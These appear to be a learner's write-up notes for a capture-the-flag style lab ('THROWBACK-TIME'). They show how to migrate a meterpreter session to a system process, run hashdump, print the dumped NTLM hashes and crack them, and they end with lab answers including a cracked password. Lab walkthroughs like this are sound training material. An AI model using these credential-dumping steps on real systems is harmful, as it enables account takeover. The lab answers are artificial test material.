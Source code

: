 - Now that we have a meterpreter session running on THROWBACK-TIME, we can utilize meterpreter's built-in tools and techniques to extract hashes and then get a ssh shell to explore the SQL database!

## Extending Meterpreter
- Meterpreter is a useful shell that allows us to execute shell commands as well as use some additional functionality within meterpreter. 
- The command we will be focusing on is the 'hashdump' command, similar to mimikatz it can allow us to dump NTLM hashes on the system. Meterpreter can also act as a C2 server with modules like incognito and powershell which we will cover later in this course.

![[Pasted image 20221020165948.png]]


## Migrating to a different process overview
- If you are not in a system process, then hashdump wont really work.
- So we need to do the following to migrate to a different process


1. Use `ps` utility to list out all the processes running on the system

2. Use `migrate <PID>` to migrate to another process running on the system.

3. Now use `hashdump` to dump hashes on the THROWBACK-TIME machine

Hashdump
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43d73c6a52e8626eabc5eb77148dca0b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd:1008:aad3b435b51404eeaad3b435b51404ee:6eea75cd2cc4ddf2967d5ee05792f9fb:::
Timekeeper:1009:aad3b435b51404eeaad3b435b51404ee:901682b1433fdf0b04ef42b13e343486:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```


# Disclamer - Crack hashes from crackstation.exe but only include the hash from the third colon (:) 
- Else we can use hashcat too for the same process


## Questions
1. Which user's hashes were we able to dump?
`Timekeeper`

2. What is the user's hash starting from the third colon?
`901682b1433fdf0b04ef42b13e343486`

3. What is the administrator's hash starting from the third colon?
`43d73c6a52e8626eabc5eb77148dca0b`

4. What is the user's cracked password?
`keeperoftime`


